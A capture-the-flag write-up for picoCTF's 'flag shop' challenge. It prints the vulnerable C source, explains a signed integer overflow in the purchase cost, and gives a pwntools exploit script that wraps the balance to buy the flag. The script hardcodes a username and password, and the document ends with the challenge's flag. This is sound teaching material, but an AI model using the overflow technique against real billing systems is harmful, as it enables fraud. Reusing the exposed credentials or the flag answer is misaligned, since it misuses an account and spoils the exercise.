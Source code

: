 # Problem
There's a flag shop selling stuff, can you buy a flag? [Source](https://2019shell1.picoctf.com/static/cf15b93155d8b2361ca2fc2c61ee4d5f/store.c). Connect with nc 2019shell1.picoctf.com 60851.

## Hints:

Two's compliment can do some weird things when numbers get really big!

## Solution:

Let's download the file:
```bash
wget https://2019shell1.picoctf.com/static/cf15b93155d8b2361ca2fc2c61ee4d5f/store.c

```

Now, let's take a look:
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}
```

Lets try to understand. We can see out balance, and buy fake/real flags. fake costs 900 and real costs 100000. We need the real flag.

There is a integer overflow that we can use. If we buy many ((2**31 + 100000) / 900) fake flags, the cost will become nagative and we will earn money. Then we can buy the real flag.

```python
#!/usr/bin/env python

from pwn import *


user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

p = remote('2019shell1.picoctf.com', 60851)

# Buy fake flags
print p.recvuntil(' Enter a menu selection\n')
p.sendline('2')
p.sendline('1')
p.sendline('{}'.format((2**31 + 100000) / 900))

# Check balance
p.sendline('1')
print p.recvuntil(' Enter a menu selection\n')

# Buy original flag
p.sendline('2')
p.sendline('2')
p.sendline('1')

# Exit
p.sendline('3')
print p.recvall()
```

Flag: picoCTF{m0n3y_bag5_34c9a5f7}
